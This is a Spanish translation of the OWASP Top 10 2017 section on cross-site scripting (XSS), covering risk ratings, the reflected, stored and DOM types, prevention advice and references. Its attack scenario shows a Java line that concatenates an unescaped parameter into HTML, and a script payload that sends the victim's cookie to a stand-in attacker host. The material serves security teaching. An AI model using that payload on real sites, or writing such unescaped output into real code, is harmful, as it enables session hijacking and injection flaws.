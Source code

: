 # A7:2017 Secuencia de Comandos en Sitios Cruzados (XSS)

| Agentes de Amenaza /Vectores de Ataque | Debilidades de Seguridad           | Impactos               |
| -- | -- | -- |
| Nivel de Acceso \| Explotabilidad 3 | Prevalencia 3 \| Detección 3 | Técnicos 2 \| al negocio |
| Existen herramientas automatizadas pueden detectar y explotar las tres formas de XSS, y también se encuentran disponibles kits de explotación gratuitos. | XSS es la segunda vulnerablidad más frecuente en OWASP Top 10, y se encuentra en alrededor de dos tercios de todas las aplicaciones. Las herramientas automatizadas pueden detectar algunos problemas XSS en forma automática, particularmente en tecnologías maduras como PHP, J2EE / JSP, y ASP.NET. | El impacto de XSS es moderado para el caso de XSS Reflejado y XSS en DOM, y severa para XSS Almacenado, que permite ejecutar secuencias de comandos en el navegador de la víctima, para robar credenciales, secuestrar sesiones, o la instlación de software malicioso en el equipo de la víctima. |

## ¿Soy vulnetable a XSS?

Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:

* **XSS Reflejado**: La aplicación o API utiliza datos suministrados por un usuario sin ser validados o codificados apropiadamente como parte del HTML de salida o cuando no hay un cabezal que establezca la política de seguridad de contenido ([CSP](https://www.owasp.org/index.php/Content_Security_Policy)). Un ataque exitoso puede permitir al atacante ejecutar comandos arbitrarios HTML y Javascript en el navegador de la víctima. Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, como un ataque del tipo pozo de agua, publicidad maliciosa, o similar.
* **XSS Almacenado**: La aplicación o API almacena datos proporcionados por el usuario sin validar ni sanear, la que posteriormente es entregada a otro usuario o un administrador. XSS Almacenado es usualmente considerado como de riesgo de nivel alto o crítico.
* **XSS Basados en DOM**: Marcos de trabajo en JavaScript, aplicaciones de página única y API que dinámicamente incluyen datos controlables por un atacante son vulnerables al DOM XSS. Idealmente, se debe evitar enviar datos controlables por el atacante a APIs no seguras.

Típicamente los ataques XSS incluyen el robo de la sesión, apropiación de la cuenta, salteo de autentificación de múltiples pasos, reemplazo de DIV o degradación (como troyanos de autentificación), ataques contra el navegador del usuario como la descarga de software malicioso, grabadores de tecleo, y otros tipos de ataques al lado cliente.


## ¿Como prevenirlo?

Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.

* Utilizar marcos de trabajo seguros que por diseño automáticamente codifiquen el contenido para prevevenir XSS, como en Ruby 3.0 o React JS.
* Codificar datos de requerimientos HTTP no confiables en el contexto de la salida de HTML (cuerpo, atributos, JavaScript, CSS, o URL) resolverán las vulnerabilidades del tipo XSS Reflejado y XSS Almacenado. La hoja de trucos [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet) tiene detalles de las técnicas de codificación de datos requeridas.
* Aplicar codificación sensitiva al contexto cuando se modifica el documento en el navegador en el lado cliente, ayuda a prevevenir DOM XSS. Cuando esta técnica no se puede aplicar, técnicas similares de codificación sensitiva se pueden aplicar a las APIs del navegador, como se explica en la hoja de trucos [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet).
* Habilitar una Política de Seguridad de Contenido [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales como sobreescritura de caminos (path traversal overwrite), o bibliotecas vulnerables de fuentes conocidas, como redes de distribución de contenidos (CDN) o bibliotecas locales.


## Ejemplos de escenarios de ataques

**Escenario 1**: La aplicación utiliza datos no confiables en la construcción del siguiente código HTML sin validarlos o codificarlos:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

El atacante modifica el parámetro “CC” en el navegador a:

```
><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

Este ataque causa que el identificador de sesión de la víctima sea enviado al sitio web del atacante, permitiendo al atacante secuestrar la sesión actual del usuario.

Notar que los atacantes pueden también utilizar XSS para anular cualquier defensa CSRF que la aplicación pueda utilizar.

## Referencias (en Inglés)

### OWASP

* [OWASP Proactive Controls - #3 Encode Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Proactive Controls - #4 Validate Data](https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016)
* [OWASP Application Security Verification Standard - V5](https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project)
* [OWASP Testing Guide: Testing for Reflected XSS](https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001))
* [OWASP Testing Guide: Testing for Stored XSS](https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002))
* [OWASP Testing Guide: Testing for DOM XSS](https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001))
* [OWASP XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)
* [OWASP DOM based XSS Prevention Cheat Sheet](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet)
* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

### Externas

* [CWE-79 Improper neutralization of user supplied input](https://cwe.mitre.org/data/definitions/79.html)
* [PortSwigger: Client-side template injection](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
